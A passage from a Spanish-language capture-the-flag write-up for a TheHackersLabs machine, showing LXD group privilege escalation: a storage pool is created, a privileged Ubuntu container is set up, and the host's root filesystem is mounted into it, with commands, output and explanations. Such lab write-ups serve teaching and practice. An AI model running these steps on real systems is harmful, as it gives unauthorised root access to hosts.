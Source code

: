 Ahora sí podemos usar los comandos de **lxc** sin problemas:
```bash
dragon@TheHackersLabs-Dragon:~$ lxc list
+------+-------+------+------+------+-----------+
| NAME | STATE | IPV4 | IPV6 | TYPE | SNAPSHOTS |
+------+-------+------+------+------+-----------+
```

Aquí te dejo 2 blogs que podemos usar para abusar del **grupo LXD** para escalar privilegios: 
* <a href="https://medium.com/@mstrbgn/privilege-escalation-using-lxd-lxc-group-assignment-to-a-user-a-security-misconfiguration-a4892f611d6f" target="_blank">Privilege Escalation Using LXD/LXC Group Assignment To A User: A Security Misconfiguration</a>
* <a href="https://www.hackingarticles.in/lxd-privilege-escalation/" target="_blank">Lxd Privilege Escalation</a>

Yo usaré la forma del primer blog, pero es necesario que la máquina víctima tenga conexión a internet.

Primero, creamos un nuevo almacenamiento al que llamamos **mypool**:
```bash
dragon@TheHackersLabs-Dragon:~$ lxc storage create mypool dir
Storage pool mypool created
```

Creamos un **contenedor LXC**(`lxc init`) llamado **test** (nombre del contenedor) basado en la imagen **ubuntu:16.04** y configurándolo como privilegiado (`-c security.privileged=true`):
```bash
dragon@TheHackersLabs-Dragon:~$ lxc init ubuntu:16.04 test -c security.privileged=true
Creating test
Retrieving image: Unpacking image: 100% (3.62GB/s)
dragon@TheHackersLabs-Dragon:~$
```

Revisamos que se haya creado el contenedor:
```bash
dragon@TheHackersLabs-Dragon:~$ lxc ls
+------+---------+------+------+-----------+-----------+
| NAME |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+------+---------+------+------+-----------+-----------+
| test | STOPPED |      |      | CONTAINER | 0         |
+------+---------+------+------+-----------+-----------+
```

Ahora, montamos el sistema de archivos del host dentro del **contenedor LXC** llamado **test**:
```bash
dragon@TheHackersLabs-Dragon:~$ lxc config device add test hack disk source=/ path=/mnt/root recursive=true
Device hack added to test
```
Aquí `lxc config device add` agrega un dispositivo al contenedor **test**, el nombre **hack** es el que se le asignó al dispositivo agregado, **disk** define el tipo de dispositivo siendo este caso un **disco (filesystem)**, `source=/` crea la montura de la raíz del host dentro del contenedor, `path=/mnt/root` indica que la montura quedara dentro del contenedor en la ruta `/mnt/root`, y por último `recursive=true` incluye todo el contenido de `/`, permitiendo el acceso recursivo a todos los archivos y subdirectorios.
